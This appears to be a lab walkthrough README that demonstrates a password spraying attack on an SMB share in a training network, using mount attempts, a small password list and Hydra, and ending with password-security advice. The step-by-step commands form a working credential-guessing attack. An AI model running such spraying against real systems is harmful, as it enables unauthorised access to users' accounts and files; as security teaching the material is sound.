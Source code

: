 # Performing Password Spraying Attack

This project focuses on managing password security by demonstrating a password spraying attack and emphasizing best practices for securing network shares. The goal is to explore the vulnerabilities of weak or common passwords in a networked environment and to highlight the importance of using strong, complex passwords to safeguard sensitive resources. Through the use of tools like Hydra and basic Linux commands, this project aims to provide a hands-on approach to understanding password-related security risks and reinforcing effective password management strategies.


---
## Step 1: Create a Mount Point  
To attach a network share, start by creating a mount point:  

```bash
mkdir /mnt/HR
```
<img src="1.png" alt="Description of Image" />

A mount point is necessary for accessing a network share once valid credentials are discovered.  

---

## Step 2: Check for Available Users  
View the list of users from the MS10 system (IP: 10.1.16.2):  

```bash
cat users.txt
```

> **Note:** If `users.txt` is not accessible, close and reopen the terminal. Ensure the prompt is `root@kali` and type:  
> ```bash
> ls -a
> ```  
> The file should then appear in the directory.
<img src="2.png" alt="Description of Image" />

---

## Step 3: Attempt Password Submissions  
### Discovered Passwords:  
```
abc123  
123456  
Pa$$w0rd  
```

### First Attempt:  
Try mounting the network share using the following command:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```
<img src="3.png" alt="Description of Image" />
When prompted for a password, enter: `abc123`  

Result: **Mount error** – This password is incorrect.

### Second Attempt:  
Try the second password:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `123456`  

Result: **Mount error** – This password is also incorrect.  

---

## Step 4: Automate with Hydra  
Manually testing each password is time-consuming, so let's automate the process. First, create a file containing the discovered passwords:  

```bash
echo abc123 > pass.txt  
echo 123456 >> pass.txt  
echo 'Pa$$w0rd' >> pass.txt  
cat pass.txt  
```

> **Important:** Ensure the passwords are spelled correctly, especially `Pa$$w0rd`. Use single quotes to avoid issues.
  <img src="4.png" alt="Description of Image" />

### Understanding the Commands:  
- `>` creates a new file and writes to it.  
- `>>` appends to the file without overwriting its contents.  

---

## Step 5: Launch Hydra for Password Spraying  
Use the Hydra wizard to perform a password spraying attack:  

```bash
hydra-wizard
```
<img src="5.png" alt="Description of Image" />

### Hydra Wizard Responses:  

| **Prompt**          | **Response**   |
|----------------------|----------------|
| Service              | smb            |
| Target               | 10.1.16.2      |
| Username             | users.txt      |
| Password             | pass.txt       |
| Test                 | (Press Enter)  |
| Port                 | (Press Enter)  |
| Module options       | (Press Enter)  |
| Run command          | Y              |

Hydra will now attempt each password for every user listed in `users.txt` against the MS10 share.  
<img src="6.png" alt="Description of Image" />
---

## Step 6: Verify Credentials  
Once Hydra identifies valid credentials, mount the share to confirm:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=jaime
```

Enter the password: `Pa$$w0rd`  

If no error appears, the share has been successfully mounted.  

View the share’s contents:  

```bash
ls /mnt/HR
```

To unmount the share, use:  
```bash
umount /mnt/HR
```
<img src="7.png" alt="Description of Image" />
---

## Conclusion: Best Practices for Password Security  
This project highlights the importance of good password management. To improve security:  

- Implement **password complexity** and **length requirements**.  
- Train users to avoid using simple passwords like `123456`.  
- Discourage writing down passwords. If necessary, securely destroy the paper afterward.  
- Use automated tools like Hydra responsibly to test and strengthen your security policies.

---